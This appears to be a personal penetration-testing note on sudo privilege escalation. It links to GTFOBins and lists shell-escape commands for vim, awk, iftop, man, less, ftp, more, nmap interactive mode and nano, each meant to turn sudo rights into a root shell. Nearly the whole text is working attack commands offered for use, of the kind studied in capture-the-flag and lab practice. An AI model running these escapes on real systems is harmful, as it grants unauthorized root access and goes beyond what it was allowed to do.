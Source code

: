 -- -
Abuse Sudo in a way that produces a shell. You can search [GTFOBins](https://gtfobins.github.io) or look through the stuff I've exploited before below.
[[Sudo|Enum]]
#### Vim/Vi
```bash
sudo vim -c ':!/bin/sh'
vim --cmd ':set shell=/bin/sh|:shell'
```
#### awk
```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```
#### iftop
```bash
sudo iftop
!/bin/bash
```
#### man
```bash
man man
!/bin/bash
```
#### less
```bash
sudo less /etc/profile
!/bin/bash
```
#### ftp
```bash
sudo ftp
!/bin/bash
```
#### more
```bash
TERM= sudo more /etc/profile
!/bin/bash
```
#### nmap
```bash
# Need versions 2.02 to 5.21 to have --interactive mode and for it to be vulnerable to the following. 
sudo nmap --interactive
!bash
```
#### nano
Pretty unstable and shitty so do this only if you have no other choice.
```bash
sudo nano
^R^X
reset; bash 1>&0 2>&0
```